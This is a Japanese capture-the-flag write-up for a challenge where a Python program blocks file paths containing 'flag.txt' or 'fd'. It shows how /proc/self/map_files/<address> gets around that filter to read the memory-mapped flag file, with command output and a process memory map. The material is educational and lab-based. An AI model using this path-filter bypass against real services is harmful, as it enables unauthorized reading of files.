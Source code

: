 ファイルパスを入力して、flag.txtの中身を読み込めればフラグを取得できる。  
コードを見るとわかるが、`flag.txt`や`fd`が文字中に入っているとプログラムが終了する。

fdが使えれば、以下のようなパスでflag.txtの中身を読み込める。

```text
/proc/self/fd/4
```

今回はfdが使えないため、どうにかする必要がある。  
また、`mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)`が使われているのが気になる。  
いろいろ`/proc`配下を調べたところ、`/proc/self/map_files/<ファイルのメモリアドレス>`が使えそうだった。

```sh
path: /proc/self/map_files/7f8922e60000-7f8922e61000
b'FAKECON{******* FIND ME ON REMOTE SERVER *******}\n'
```

メモリにマップされたファイルがシンボリックリンクされているみたい。

```sh
ctf@52f21ee060a3:/$ cat /proc/44/maps
5619764e9000-5619764ea000 r--p 00000000 08:20 508394                     /usr/local/bin/python3.11
5619764ea000-5619764eb000 r-xp 00001000 08:20 508394                     /usr/local/bin/python3.11
5619764eb000-5619764ec000 r--p 00002000 08:20 508394                     /usr/local/bin/python3.11
5619764ec000-5619764ed000 r--p 00002000 08:20 508394                     /usr/local/bin/python3.11
5619764ed000-5619764ee000 rw-p 00003000 08:20 508394                     /usr/local/bin/python3.11
561976572000-56197685a000 rw-p 00000000 00:00 0                          [heap]
7f892278e000-7f892288e000 rw-p 00000000 00:00 0 
7f89228d1000-7f89228d3000 r--p 00000000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d3000-7f89228d5000 r-xp 00002000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d5000-7f89228d7000 r--p 00004000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d7000-7f89228d8000 r--p 00005000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d8000-7f89228d9000 rw-p 00006000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d9000-7f8922b3f000 rw-p 00000000 00:00 0 
7f8922b3f000-7f8922b46000 r--s 00000000 08:20 486465                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8922b46000-7f8922b9d000 r--p 00000000 08:20 486112                     /usr/lib/locale/C.utf8/LC_CTYPE
7f8922b9d000-7f8922b9f000 rw-p 00000000 00:00 0 
7f8922b9f000-7f8922baf000 r--p 00000000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922baf000-7f8922c22000 r-xp 00010000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c22000-7f8922c7c000 r--p 00083000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7c000-7f8922c7d000 r--p 000dc000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7d000-7f8922c7e000 rw-p 000dd000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7e000-7f8922ca4000 r--p 00000000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922ca4000-7f8922df9000 r-xp 00026000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922df9000-7f8922e4c000 r--p 0017b000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e4c000-7f8922e50000 r--p 001ce000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e50000-7f8922e52000 rw-p 001d2000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e52000-7f8922e5f000 rw-p 00000000 00:00 0 
7f8922e60000-7f8922e61000 r--s 00000000 08:20 511429                     /home/ctf/flag.txt
```